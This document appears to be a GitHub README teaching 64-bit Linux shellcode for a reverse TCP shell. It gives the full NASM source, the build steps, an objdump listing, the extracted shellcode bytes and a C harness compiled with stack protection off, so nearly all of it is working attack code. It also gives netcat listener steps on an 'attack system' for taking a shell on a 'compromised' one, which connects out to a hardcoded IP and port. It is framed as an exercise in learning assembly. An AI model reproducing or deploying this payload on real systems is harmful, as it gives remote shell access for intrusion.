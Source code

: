 ## Reverse TCP Bind Shell 64 bit

In learning 64 bit assembly language under Linux, I thought I would convert some of the 32 bit code I have already in my repo. Therefore there won’t be a full explanation, just the basics.

The assembly language code.
```nasm
global _start
section .text
 
_start:
    xor rax,rax
    xor rdi,rdi
    xor rsi,rsi
    xor rdx,rdx
    xor r8,r8
     
    ; Socket
    ; Function prototype:
    ;   int socket(int domain, int type, int protocol)
    ; Purpose:
    ;   creates an endpoint for communications, returns a
    ;   descriptor that will be used throughout the code to
    ;   bind/listen/accept communications
    push 0x2
    pop rdi
    push 0x1
    pop rsi
    push 0x6
    pop rdx
    push 0x29
    pop rax
    syscall 
    mov r8,rax
     
    ; Connect
    ; Function protoype:
    ;   int connect(int sockfd, const struct sockaddr *addr,
    ;       socklen_t addrlen)
    ; Purpose:
    ;   initiate a connection on socket referred by the file
    ;   descriptor to the address specified in addr.
    xor rsi,rsi
    xor r10,r10
    push r10
    mov byte [rsp],0x2
    mov word [rsp+0x2],0x697a
    mov dword [rsp+0x4],0xa1080c0
    mov rsi, rsp
    push byte 0x10
    pop rdx
    push r8
    pop rdi
    push 0x2a
    pop rax
    syscall
     
    ; Dup2
    ; Function prototype:
    ;   int dup2(int oldfd, int newfd)
    ; Purpose:
    ;   duplicate a file descriptor, copies the old file
    ;   descriptor to a new one allowing them to be used
    ;   interchangably, this allows all shell ops to/from the
    ;   compromised system
    xor rsi,rsi
    push 0x3
    pop rsi
doop:
    dec rsi
    push 0x21
    pop rax
    syscall 
    jne doop
     
    ; Execve
    ; Function descriptor:
    ;   int execve(const char *fn, char *const argv[],
    ;       char *const envp[])
    ; Purpose:
    ;   to execute a program on a remote and/or compromised
    ;   system. There is no return from using execve therefore
    ;   an exit syscall is not required
    xor rdi,rdi
    push rdi
    push rdi
    pop rsi
    pop rdx
    mov rdi,0x68732f6e69622f2f
    shr rdi,0x8
    push rdi
    push rsp
    pop rdi
    push 0x3b
    pop rax
    syscall
```
Build the code:
```
$ nasm -felf64 -o reversetcpbindshell.o reversetcpbindshell.asm
$ ld -o reversetcpbindshell reversetcpbindshell.o
```
Check for nulls:
```
$ objdump -D reversetcpbindshell -M intel
	
reversetcpbindshell:     file format elf64-x86-64
Disassembly of section .text:
 
0000000000400080 <_start>:
  400080:   48 31 c0                xor    rax,rax
  400083:   48 31 ff                xor    rdi,rdi
  400086:   48 31 f6                xor    rsi,rsi
  400089:   48 31 d2                xor    rdx,rdx
  40008c:   4d 31 c0                xor    r8,r8
  40008f:   6a 02                   push   0x2
  400091:   5f                      pop    rdi
  400092:   6a 01                   push   0x1
  400094:   5e                      pop    rsi
  400095:   6a 06                   push   0x6
  400097:   5a                      pop    rdx
  400098:   6a 29                   push   0x29
  40009a:   58                      pop    rax
  40009b:   0f 05                   syscall 
  40009d:   49 89 c0                mov    r8,rax
  4000a0:   48 31 f6                xor    rsi,rsi
  4000a3:   4d 31 d2                xor    r10,r10
  4000a6:   41 52                   push   r10
  4000a8:   c6 04 24 02             mov    BYTE PTR [rsp],0x2
  4000ac:   66 c7 44 24 02 7a 69    mov    WORD PTR [rsp+0x2],0x697a
  4000b3:   c7 44 24 04 c0 80 10    mov    DWORD PTR [rsp+0x4],0xa1080c0
  4000ba:   0a 
  4000bb:   48 89 e6                mov    rsi,rsp
  4000be:   6a 10                   push   0x10
  4000c0:   5a                      pop    rdx
  4000c1:   41 50                   push   r8
  4000c3:   5f                      pop    rdi
  4000c4:   6a 2a                   push   0x2a
  4000c6:   58                      pop    rax
  4000c7:   0f 05                   syscall 
  4000c9:   48 31 f6                xor    rsi,rsi
  4000cc:   6a 03                   push   0x3
  4000ce:   5e                      pop    rsi
00000000004000cf <doop>:
  4000cf:   48 ff ce                dec    rsi
  4000d2:   6a 21                   push   0x21
  4000d4:   58                      pop    rax
  4000d5:   0f 05                   syscall 
  4000d7:   75 f6                   jne    4000cf <doop>
  4000d9:   48 31 ff                xor    rdi,rdi
  4000dc:   57                      push   rdi
  4000dd:   57                      push   rdi
  4000de:   5e                      pop    rsi
  4000df:   5a                      pop    rdx
  4000e0:   48 bf 2f 2f 62 69 6e    movabs rdi,0x68732f6e69622f2f
  4000e7:   2f 73 68 
  4000ea:   48 c1 ef 08             shr    rdi,0x8
  4000ee:   57                      push   rdi
  4000ef:   54                      push   rsp
  4000f0:   5f                      pop    rdi
  4000f1:   6a 3b                   push   0x3b
  4000f3:   58                      pop    rax
  4000f4:   0f 05                   syscall 
```
Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so,
```bash
$ objdump -d ./reversetcpbindshell | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-7 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\xc0\x80\x10\x0a\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05”
```
The shellcode can be copied and pasted into a test program, similar to the one below. The #define IPADDR and PORT is to allow for the simple configuration of IP Address and Port.
```c	
#include <stdio.h>
  
/*
 ipaddr 192.168.1.10 (c0a8010a)
 port 31337 (7a69)
*/
#define IPADDR "\xc0\x80\x10\x0a"
#define PORT "\x7a\x69"
  
unsigned char code[] = 
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
"\x02"PORT"\xc7\x44\x24\x04"IPADDR"\x48\x89\xe6\x6a\x10"
"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05";
 
int
main(void)
{
    printf("Shellcode Length: %dn", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

The shellcode above currently weighs in at 118 bytes. With further research the codebase could be reduced, but that was not the goal of this exercise.


Shell-storm database entry -- http://shell-storm.org/shellcode/files/shellcode-857.php
